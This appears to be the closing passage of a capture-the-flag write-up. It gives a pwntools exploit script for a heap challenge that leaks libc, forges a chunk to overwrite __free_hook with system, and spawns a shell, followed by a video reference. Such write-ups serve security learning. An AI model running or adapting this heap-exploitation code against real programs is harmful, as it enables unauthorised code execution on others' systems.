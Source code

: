     add_note(1, b'b'*8)
    edit_note(1, 0x18, b'b')

    add_note(2, b'c'*8)

    '''------------------
    Leak libc address
    ------------------'''
    delete_note(0)
    show_note()
    r.recvuntil(b'data:')
    libc = (u64(r.recv(8)) >> 8) - 0x1ecbe0 - 0xa000000000000
    info(f"libc address: {hex(libc)}")
    free_hook_addr = libc + 0x1eee48
    info(f"__free_hook address: {hex(free_hook_addr)}")
    libc_sys_addr = libc + 0x52290
    info(f"__libc_system address: {hex(libc_sys_addr)}")

    '''------------------
    Construct fake chunk
    ------------------'''
    data = b'/bin/sh\x00'.ljust(0x10, b'b')
    fake_chunk = flat(
        0, 0x21,
        b'cccccccc', b'cccccccc',
        free_hook_addr
    )

    edit_note(1, 0x38, data + fake_chunk)
    edit_note(2, 0x8, p64(libc_sys_addr))
    delete_note(1)

    r.interactive()
    ```
    :::

## Reference
[SS111-Pwn2](https://youtu.be/MwjSNFQIx0c)